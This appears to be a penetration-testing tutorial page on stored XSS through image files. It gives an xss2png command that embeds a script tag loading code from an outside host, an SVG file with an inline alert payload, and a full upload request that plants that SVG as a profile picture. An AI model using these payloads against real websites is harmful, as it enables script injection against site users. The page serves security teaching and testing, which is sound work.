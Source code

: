 # Embedded images

### XSS PNG

```
python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o xss.png
```

{% embed url="https://github.com/vavkamil/xss2png" %}

### XSS SVG

Scalable Vector Graphics(SVG) is an XML-based vector image format for two-dimensional graphics with support for interactivity and animation.

The below code is an example of a basic SVG file that will show a picture of a rectangle:

```
<svg width="400" height="110">
  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
</svg>
```

SVG files also support inline javascript code. For instance a developer might use javascript in an svg image so they can manipulate it in real time. This can be used for animation and other tasks.

Another thing to note is that SVG files can be treated as images in HTML. This means you can place a SVG file in a image tag and it will render perfectly:

```
<img src="rectangle.svg" alt="Rectangle" height="42" width="42">
```

#### XSS

If a website loads a SVG file with an XSS payload it will get executed. This is often over looked by developers and attackers alike. An example SVG file with an alert XSS payload can be found below:

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>
```

One easy way to test for this vulnerability is to upload a SVG file as your profile picture as shown in the below burp requests:

```
POST /profile/upload HTTP/1.1
Host: XXXXXXXXX.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: /
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Bearer XXXXXXXXXXXXXXXXXX
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
Connection: close
Referer: https://XXXXXXXXX
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert("Ghostlulz XSS");
   </script>
</svg>
-----------------------------232181429808--
```

Notice the content type is set to :

```
Content-Type: image/svg+xml
```

Once the image is uploaded you just need to find out what path it was uploaded to. This can easily be done by right clicking the image and selecting “copy image address” , if your using google chrome. If everything worked when you view the image your payload will execute. You just got stored XSS via a SVG file.

![](https://secureservercdn.net/198.71.233.229/1j8.930.myftpupload.com/wp-content/uploads/2019/10/Screen-Shot-2019-10-05-at-12.04.32-PM-1024x493.png)
